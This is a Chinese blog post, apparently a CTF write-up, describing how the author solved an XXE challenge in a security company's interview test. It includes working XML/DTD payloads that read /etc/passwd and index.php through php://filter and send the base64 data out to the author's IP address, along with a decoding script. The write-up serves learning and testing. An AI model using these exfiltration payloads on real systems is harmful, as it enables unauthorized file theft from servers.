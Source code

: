 ```yaml
---
title: 记一次面试某安全公司一道XXE漏洞CTF面试题
date: 2019-03-15 15:54:09
tags: 
	- XXE
	- CTF
categories: 
---
```


### 0x00 说在前面的话

最近面试一家安全公司，拿到一套CTF题目作为面试前的技术能力测试。其中有一道XEE漏洞的题目，碰巧最近正在研究学习XXE漏洞，过程中遇到了一些坑，隧做个记录。

下面直接进入主题...

<!-- more -->

### 0x01 正文

#### 1.起步

首先，点击题目链接进入，发现是一个RSS checker的页面，页面有一个输入框要求输入URL地址，直接随意输入一个地址，点击提交查询。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\00.png)

提交后返回XML文档无效“XML document is not valid”的信息，由此可以知道此处应该是需要我们提供一个XML文档的URL地址。既然是XML文档，那么首先考虑到的存在XEE漏洞。

#### 2.漏洞验证

接下来就是要验证是否存在XXE漏洞，确定漏洞存在的根本是要证明目标服务器允许外部实体。所以证明的整体思路为：

> 1.让目标服务器访问请求我们提供的XML文档。
>
> 2.我们提供的XML文档中使用了外部实体。
>
> 3.若我们的XML文档中的外部实体被解析了，则证明漏洞存在。

首先，要让目标服务器请求我们的XML文档的话，我们得先有一台外网服务器，话不多说，直接去搞一个腾讯云学生服务器。

搞定了服务器后，直接在服务器上创建一个XML文档，命名为evil.xml，内容如下：

```
<?xml version="1.0"?> 
<!DOCTYPE ANY [ 
<!ENTITY % test SYSTEM "http://148.x.x.141/xxe_test">
%test;
]>
```

![](记一次面试某安全公司一道XXE漏洞CTF面试题\01testxml.png)

接着为了让目标服务器可以获取我们的evil.xml，我们需要一个HTTP服务器。直接使用Python建立一个简单的WEB服务，输入命令：`python -m SimpleHTTPServer 80`。这样我们的服务器就会开启一个监听在80端口的HTTP服务。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\QQ截图20190315163014.png)

再接下来就是要让目标服务器请求我们的evil.xml了，在网页输入我们evil.xml的URL然后点击提交查询，然后观察我们服务器上HTTP服务的访问情况。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\02prove.png)

在上图中，可以看到目标服务器向我们的服务器发起了两次请求，第一次请求evil.xml文档。第二次请求了`/xxe_test`，这正是我们在evil.xml中定义的引用外部实体。简单说就是我们在网页上输入我们的evil.xml的URL地址，目标服务器不但请求了我们的evil.xml文档，还解析执行了evil.xml的内容。evil.xml中`<!ENTITY % test SYSTEM "http://148.x.x.141/xxe_test">`就是外部实体，若允许外部实体，这条语句就会执行，执行的结果就是向`http://148.x.x.141/xxe_test`(即我们的服务器)发起请求。我们在服务器上看到该请求，也就证明目标服务器允许外部实体，也即存在XXE漏洞。

#### 3.漏洞利用

确定了漏洞的存在，接下来就是利用漏洞搞事。XXE最常见的利用方式就是进行任意文件读取。获取敏感重要文件的内容。

读取文件之前我们需要确定以什么方式读取：直接回显还是带外通道。

直接回显即目标服务器会把结果直接放于响应页面中返回。观察响应页面就只有XML文档有效或无效的信息。显然我们只能采取带外通道读取的方式。读取文件的大概思路如下：

> 1.确定要读取的文件，如/etc/passwd。
>
> 2.再创建一个文件，文件内容是定义实体，具体内容见下面。
>
> 3.修改evil.xml的内容，并将上一步创建的文件引用进来，具体内容见下面。

首先，我们先尝试读取目标服务器的`/etc/passwd`文件。evil.xml文件内容为：

```xml-dtd
<?xml version="1.0"?> 
<!DOCTYPE ANY [ 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http://148.70.34.141/data.dtd">
%dtd; %payload; %send;
]>
```

- 第3行作用是读取`/etc/passwd`文件内容，并使用php filter将内容进行压缩及Base64编码。

- 第4行引用了另一个文件，文件名为data.dtd，文件的内容如下：

  ```xml-dtd
  <!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://148.70.34.141/?data=%file;'>">
  ```

  - 该文件定义了一个实体，实体的内容又定义了另一个实体，内层实体的作用是将第三行压缩打包的内容作为HTTP请求参数发送到我们的HTTP服务器上。
  - `&#37;`是`%`的实体，内层的实体的`%`必须要使用实体形式，否则是不能解析的。
  - 之所以还需要创建该文件，而不能将该文件内容直接定义在evil.xml中，是因为直接在evil.xml中定义是不生效的，不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

- 大概梳理一下两个文件的实体解析过程：

  > 1. `%dtd;`会执行evil.xml的第3行，执行的结果是引用了`data.dtd`文件，可以简单认为将`data.dtd`的文件内容替换`%dtd;`。
  >
  > 2. `%payload;`执行的就是`data.dtd`的内容，可简单认为，`%payload;`会被`<!ENTITY &#37; send SYSTEM 'http://148.70.34.141/?data=%file;'>`进行替换。
  > 3. `%send;`会向`http://148.70.34.141/?data=%file;`发起请求，而发起请求前，`%file;`也会被解析，被压缩加密的`/etc/passwd`文件内容进行替换。

编写好Payload文件之后，继续之前的操作，让目标服务器请求我们的evil.xml文件。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\04readpasswd.png)

并没有成功读取`/etc/passwd`，而是报错了，根据错误信息我们可以知道，目标服务器对允许读取的路径进行了权限控制，只允许读取的路径为：`/challenge/web-serveur/ch29`。

那么我们只能读取其他文件了，根据错误信息我们还可以知道，被允许读取的路径下，存在一个`index.php`文件，尝试读取该文件，只需要的evil.xml文件中的`/etc/passwd`改为`./index.php`（允许使用相对路径）即可。

修改好evil.xml文件后，继续让目标服务器请求。发现被压缩加密的`index.php`文件内容被成功发送到我们的服务器。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\06readindex.png)

接下来就是将压缩编码内容进行解压解码。此处可以编写一个接收的页面进行解压解码。由于环境原因，我的操作是将压缩编码的文件内容复制保存到一个文件中，文件名tmp.txt。然后创建一个php文件，内容为：

```php
<?php 
echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=tmp.txt");
?>
```

将该php文件放到phpstudy的web根目录下并访问，就可以在页面中找到flag。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\flag.png)

### 0x03 总结

做下来之后，题目的难度不算高，但是期间遇到了一个坑，感觉payload什么的都设置的没有问题了，但是一直读取不了文件，为此花了很长时间，最终查了一下资料才知道，使用 libxml 读取文件内容的时候，文件不能过大，如果太大就会报错。

刚开始使用的是：`php://filter/read=convert.base64-decode/resource=`，只对文件内容进行编码，所以文件过大无法发送。后面使用：`php://filter/read=convert.base64-decode/zlib.inflate/resource=`进行压缩编码才成功读取。

> 压缩及编码：`echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");`
> 解压及解码：`echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");`

**参考链接：**

https://xz.aliyun.com/t/3357
